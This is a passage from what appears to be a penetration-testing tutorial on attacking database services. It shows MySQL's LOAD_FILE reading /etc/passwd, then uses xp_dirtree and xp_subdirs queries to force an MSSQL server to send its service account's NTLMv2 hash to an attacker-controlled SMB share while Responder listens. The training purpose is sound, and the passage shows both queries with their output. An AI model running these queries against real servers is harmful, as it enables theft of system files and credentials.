 ```cmd-session
```

As we previously mentioned, by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

### **MySQL - Read Local Files in MySQL**

```shell-session
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```

## Capture MSSQL Service Hash

In the `Attacking SMB` section, we discussed that we could create a fake SMB server to steal a hash and abuse some default implementation within a Windows operating system. We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

### **XP\_DIRTREE Hash Stealing**

```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```

### **XP\_SUBDIRS Hash Stealing**

```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```
